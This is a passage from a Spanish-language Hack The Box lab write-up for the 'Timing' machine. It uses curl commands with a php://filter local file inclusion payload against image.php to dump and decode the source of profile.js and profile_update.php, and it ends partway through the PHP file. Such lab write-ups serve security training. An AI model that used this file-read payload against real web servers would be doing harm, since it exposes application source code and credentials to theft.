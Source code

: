 Aquí lo interesante es que existe un **`profile.js`** que parece encargarse de actualizar nuestro perfil. Veamos el código.

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=js/profile.js" | base64 -d
function updateProfile() {
    var xml = new XMLHttpRequest();
    xml.onreadystatechange = function () {
        if (xml.readyState == 4 && xml.status == 200) {
            document.getElementById("alert-profile-update").style.display = "block"
        }
    };

    xml.open("POST", "profile_update.php", true);
    xml.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xml.send("firstName=" + document.getElementById("firstName").value + "&lastName=" + document.getElementById("lastName").value + "&email=" + document.getElementById("email").value + "&company=" + document.getElementById("company").value);
}
```

De nuevo encontramos otro archivo php, echemos un vistazo a **`profile_update.php`**

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=profile_update.php" | base64 -d
```

```php
<?php

include "auth_check.php";

$error = "";

if (empty($_POST['firstName'])) {
    $error = 'First Name is required.';
} else if (empty($_POST['lastName'])) {
    $error = 'Last Name is required.';
} else if (empty($_POST['email'])) {
    $error = 'Email is required.';
} else if (empty($_POST['company'])) {
    $error = 'Company is required.';
}

if (!empty($error)) {
    die("Error updating profile, reason: " . $error);
} else {

    include "db_conn.php";

    $id = $_SESSION['userid'];
    $statement = $pdo->prepare("SELECT * FROM users WHERE id = :id");
    $result = $statement->execute(array('id' => $id));
    $user = $statement->fetch();

    if ($user !== false) {

        ini_set('display_errors', '1');
        ini_set('display_startup_errors', '1');
        error_reporting(E_ALL);

        $firstName = $_POST['firstName'];
        $lastName = $_POST['lastName'];
        $email = $_POST['email'];
```